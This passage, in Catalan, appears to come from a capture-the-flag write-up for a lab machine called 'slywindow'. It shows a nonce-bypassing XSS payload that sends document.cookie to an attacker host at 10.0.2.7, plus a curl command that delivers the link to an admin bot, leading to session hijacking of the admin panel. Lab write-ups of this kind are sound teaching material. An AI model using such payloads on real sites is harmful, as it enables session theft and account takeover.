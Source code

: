 ```javascript
<script nonce="aW1wcm92YWJsZS1ub25jZS0yMDI1LTA4LTAx">location.href='//10.0.2.7/?'+encodeURIComponent(document.cookie)</script>
```

Accedim a la següent URL des del nostre navegador; encara que visualment es redirigeix a Google, el nostre servidor web aconsegueix capturar la cookie de la nostra pròpia sessió, validant així l'exfiltració.

```text
http://www.slywindow.nyx/admin.php?error=%3Cscript%20nonce%3D%22aW1wcm92YWJsZS1ub25jZS0yMDI1LTA4LTAx%22%3Elocation.href%3D%27//10.0.2.7/%3F%27%2BencodeURIComponent%28document.cookie%29%3C%2Fscript%3E
```

![My cookie](../../../assets/images/slywindow/20250801_035317_image.png)

Amb l'enllaç maliciós llest, procedim a utilitzar l'API per enviar la URL a l'administrador i així intentar exfiltrar la seva cookie de la pàgina `http://www.slywindow.nyx/admin.php`.

```bash
curl -H 'X-API-Key: d880e17b1a866fbe7221de31316e66e560025276d8bce7d48706b44ffaf56b79' -d '{"message":"test","url":"http://www.slywindow.nyx/admin.php?error=%3Cscript%20nonce%3D%22aW1wcm92YWJsZS1ub25jZS0yMDI1LTA4LTAx%22%3Elocation.href%3D%27//10.0.2.7/%3F%27%2BencodeURIComponent%28document.cookie%29%3C%2Fscript%3E"}' -X POST http://api.slywindow.nyx/api.php 2>/dev/null | jq
```

En menys de 30 segons, el nostre servidor rep la cookie de sessió de l'administrador, confirmant l'exfiltració exitosa.

![Admin cookie](../../../assets/images/slywindow/20250801_035601_image.png)

Accedim a la URL `http://www.slywindow.nyx/admin.php`, substituïm la cookie de sessió al navegador per la de l'administrador prèviament exfiltrada i recarreguem la pàgina. D'aquesta manera, obtenim accés al `Administration Panel`.
